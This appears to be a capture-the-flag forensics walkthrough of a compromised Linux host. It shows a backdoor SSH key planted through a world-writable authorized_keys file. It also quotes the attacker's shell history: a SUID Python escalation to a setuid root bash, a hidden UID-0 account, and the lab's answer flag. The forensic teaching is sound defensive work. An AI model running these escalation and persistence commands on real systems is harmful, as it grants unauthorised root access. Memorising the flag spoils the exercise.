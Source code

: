 Let's view the file to see if we can identify any unintended authorised public keys:

```bash
$ cat /home/jane/.ssh/authorized_keys 
ssh-rsa ******************** jane@ip-10-10-25-169
ssh-rsa ******************** backdoor
```

Notice that there are two entries. The first belongs to Jane, as signified by the ending comment. However, the second entry appears to be related to an entirely different keypair with the comment "backdoor". The attacker was likely able to edit this file and append their own public key, allowing them SSH access as Jane.

We can further confirm this by returning to the `stat` command. By running it on the file, we can see that it was last modified around a similar timeframe to when we confirmed the attacker gained an initial foothold on the system.

```bash
$ stat /home/jane/.ssh/authorized_keys 
  File: /home/jane/.ssh/authorized_keys
  Size: 1136      	Blocks: 8          IO Block: 4096   regular file
Device: ca01h/51713d	Inode: 257561      Links: 1
Access: (0666/-rw-rw-rw-)  Uid: ( 1002/    jane)   Gid: ( 1002/    jane)
Access: 2025-05-13 21:51:53.692530853 +0000
Modify: 2024-02-13 00:34:16.005897449 +0000
Change: 2024-02-13 00:34:16.005897449 +0000
 Birth: -
```

If we look back to the output of the `ls -al` command, we can identify the permission misconfiguration that made this possible:

```bash    
$ ls -la /home/jane/.ssh/authorized_keys 
-rw-rw-rw- 1 jane jane 1136 Feb 13 00:34 /home/jane/.ssh/authorized_keys
```
        
As identified by the third rw permissions, this file is world-writable, which should never be the case for sensitive files. Consequently, by exploiting this misconfiguration, the attacker gained unauthorised SSH access to the system as if they were Jane.


> **View Jane's .bash_history file. What flag do you see in the output?**
```bash
$ sudo cat /home/jane/.bash_history 
[sudo] password for investigator: 
whoami
groups
cd ~
ls -al
find / -perm -u=s -type f 2>/dev/null
/usr/bin/python3.8 -c 'import os; os.execl("/bin/sh", "sh", "-p", "-c", "cp /bin/bash
 /var/tmp/bash && chown root:root /var/tmp/bash && chmod +s /var/tmp/bash")'
ls -al /var/tmp
exit
useradd -o -u 0 b4ckd00r3d
exit
THM{f38279ab9c6af1215815e5f7bbad891b}
```
><details><summary>Click for answer</summary></details>
